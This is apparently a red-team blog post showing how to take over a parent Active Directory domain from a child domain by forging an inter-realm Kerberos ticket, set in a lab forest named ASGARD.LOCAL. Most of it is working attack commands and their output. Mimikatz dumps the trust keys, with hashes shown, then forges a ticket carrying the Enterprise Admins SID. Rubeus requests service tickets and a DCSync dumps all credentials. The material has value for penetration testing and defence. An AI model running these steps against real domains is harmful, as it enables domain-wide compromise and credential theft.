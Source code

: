 ```yaml
---
layout: post
title: Inter-Realm TGT, jumping through domains
categories:
- Microsoft
- Active Directory
tags:
- redteam
- kerberos
- windows
- ad
lang: en
date: 2024-05-18 16:00 +0100
description: In this article, I will show you how to instantly compromise a Parent domain thanks to Inter-Realm TGT.
image: "/assets/img/InterRealmTGT/interrealmtgt.svg"
---
```


## Summary
In this article, I will show you how to instantly compromise a Parent domain thanks to `Inter-Realm TGT`.

## Prerequisites
- Domain Admins rights on local domain
- Local domain should be trusted by targeted domain
- SID Filtering should be disabled between the two domains (case of a Parent/Child trust)

## Inter-realm key 

### What are inter-realm keys ? 

[Microsoft](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772815(v=ws.10)?redirectedfrom=MSDN#inter-realm-keys) on inter-realm keys (or trust keys): 

> In order for cross-realm authentication to occur, the KDCs must share an inter-realm key. The realms can then trust each other because they share the key.

> Active Directory domains that have a parent-child relationship share an inter-realm key. This inter-realm key is the basis of transitive trusts in Windows 2000 and Windows Server 2003. If a shortcut trust is created, the two domains will exchange a key specifically for their trust.

Therefore, we will need an inter-realm key to build our inter-realm TGT!

### Get an inter-realm key

In this example, we are on **DEV.ADMIN.ASGARD.LOCAL** and we want to access the parent domain **ADMIN.ASGARD.LOCAL**.

A Parent/Child trust exist between DEV.ADMIN.ASGARD.LOCAL and ADMIN.ASGARD.LOCAL, this trust is a **two-way transitive trust** which by default doesn't have SID Filtering:

![forest](/assets/img/InterRealmTGT/interrealmtgt.svg)

In order to retrieve inter-realm keys, it is possible to use the `lsadump::trust "/patch"` command from `Mimikatz` on the Domain Controller.

```console
beacon> mimikatz lsadump::trust "/patch"  
[*] Tasked beacon to run mimikatz's lsadump::trust "/patch" command  
[+] host called home, sent: 787056 bytes  
[+] received output:   
Current domain: DEV.ADMIN.ASGARD.LOCAL (DEV / S-1-5-21-1416445593-394318334-2645530711)   
Domain: ADMIN.ASGARD.LOCAL (ADMIN / S-1-5-21-1216317506-3509444512-4230742538)  
[ In ] DEV.ADMIN.ASGARD.LOCAL -> ADMIN.ASGARD.LOCAL  
* 12/19/2022 10:40:37 PM - CLEAR - 18 8a a4 c1 dd e9 b3 09 b3 0e 3e 92 1c 57 41 82 37 7c e5 93 8f bf 02 b6 d1 b4 1c 3d 87 92 8a 3b 07 a6 4b a9 d6 9f 51 d4 f4 0e b9 60 49 a8 41 6e 9a 5c 12 9a fc b7 06 cb 38 ed 30 e5 01 91 78 b3 cf fd 72 56 75 83 91 76 37 74 1a 3a 18 87 f9 99 a9 48 ee f4 21 fb 7c 10 d0 0b e8 66 41 c3 c8 9f a2 1d 10 24 77 fb 21 22 51 fd 59 fd 89 f9 46 58 c6 28 85 7d 0a 24 ed 27 3c d6 38 c9 86 d9 97 6d 0c 03 26 9b 27 ec 63 42 91 5a a8 f7 e5 3e 92 0a ef 56 3a 35 b0 eb eb c2 7f 3b f4 21 08 26 83 7a 39 e4 ef a2 c4 de d4 ff 7d f3 bc 28 73 e7 6c 28 48 48 68 21 f7 ba 83 91 96 de 82 88 94 82 73 a0 f7 4b cc e4 a1 92 a9 5d 40 d8 05 5c 99 83 11 5a a8 86 12 f4 25 cd 0a e0 1b 5f ab 39 05 1a c2 0a 57 97 b3 40 97 e9 ad 37 dc 0c 0b 50 05 91 13 e6 d  
* aes256_hmac 21d271b09dd2e854540d347f2d1e7b3b66df4bc7e49dfea9fa9596331e704421  
* aes128_hmac 4d8bce9ef967078aa8885edbee194b3d  
* rc4_hmac_nt ae88fb9f9913cf65971234ac5d8638a1   
[ Out ] ADMIN.ASGARD.LOCAL -> DEV.ADMIN.ASGARD.LOCAL  
* 12/19/2022 10:40:11 PM - CLEAR - 62 b7 66 ee 53 91 c0 10 23 7c 6b 0c c7 79 fa 89 a5 e7 85 8d b2 f9 4a f1 a7 5d 64 ef d0 e0 27 25 9d 86 92 aa c5 56 20 9b cd 44 9b 17 9f 1f 20 f5 38 45 ee 35 e1 b9 2c 1e 27 96 57 36 bf 76 c1 a1 30 ca af 69 b6 85 a1 ca d5 3d 59 81 3b f6 f6 62 e7 16 eb db a4 f8 0e 2c 96 88 8d d5 eb f1 79 25 ea 8a 88 fd 77 8c b0 d5 3a dc 64 e3 43 4b 65 86 14 66 0a 1a 8e ff 03 36 21 64 3f eb 51 2c ee 8c e6 0f b6 ad c6 0d c1 9c 0f 24 2b 6d 04 b6 30 12 02 5f fc 4d 4c 93 e5 a8 28 61 d8 0e 18 ee 59 33 46 8a 6d 90 0d a3 08 e4 ab 81 25 44 20 70 85 59 2c 96 71 24 e2 a0 39 7b d0 43 4f b8 a8 3a 43 46 eb 89 b3 dc ef 8a 59 51 de ea e1 12 e9 75 95 d3 15 27 ee be fb 19 55 c7 43 d8 1a 58 f4 0d 5c 79 ce df 3d 54 a9 4f 33 0c 62 0d 2e 52 4d 8a 79 74  
* aes256_hmac fcccd525ee51bcc04cc7ce3addd13a4ea34d227789c02ad6de6591d4aaafda77  
* aes128_hmac c9893e16065f9555978e3f923d037d06  
* rc4_hmac_nt c4e059ade32175248a2188bf6814bab8   
```

The inter-realm key we want to use here, is the **RC4** key of the `[ In ] DEV.ADMIN.ASGARD.LOCAL -> ADMIN.ASGARD.LOCAL` part: `ae88fb9f9913cf65971234ac5d8638a1`

## Forge Inter-Realm TGT

In order to forge the inter-realm TGT, we can use mimikatz `kerberos::golden` with the following parameters:
- `user`: user to impersonate
- `domain`: current domain
- `sid`: current domain SID
- `sids`: target domain Enterprise Admin SID \<domain sid>-519
- `rc4`: inter-realm key
- `service`: krbtgt
- `target`: target domain
- `ticket`: ticket output file

```bat
mimikatz.exe kerberos::golden /user:Administrator /domain:DEV.ADMIN.ASGARD.LOCAL /sid:"S-1-5-21-1416445593-394318334-2645530711" /sids:"S-1-5-21-1216317506-3509444512-4230742538-519" /rc4:"ae88fb9f9913cf65971234ac5d8638a1" /service:krbtgt /target:ADMIN.ASGARD.LOCAL /ticket:interrealmtgt.kirbi
```

### Post-Exploitation

After forging the inter-realm TGT, we can now retrieve Service Tickets for any services on "ADMIN.ASGARD.LOCAL":
```bat
Rubeus.exe asktgs /service:cifs/DC.admin.asgard.local /dc:DC.admin.asgard.local /ticket:interrealmtgt.kirbi /ptt

Rubeus.exe asktgs /service:ldap/DC.admin.asgard.local /dc:DC.admin.asgard.local /ticket:interrealmtgt.kirbi /ptt  
```

And perform a DCSync attack for example:
```bat
mimikatz.exe "lsadump::dcsync /domain:admin.asgard.local /all /csv"
```

## References/Resources

- [https://adsecurity.org/?p=1588](https://adsecurity.org/?p=1588)
- [https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72](https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72)
- [https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d](https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d)
- [https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759554(v=ws.10)](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759554(v=ws.10))
- [https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)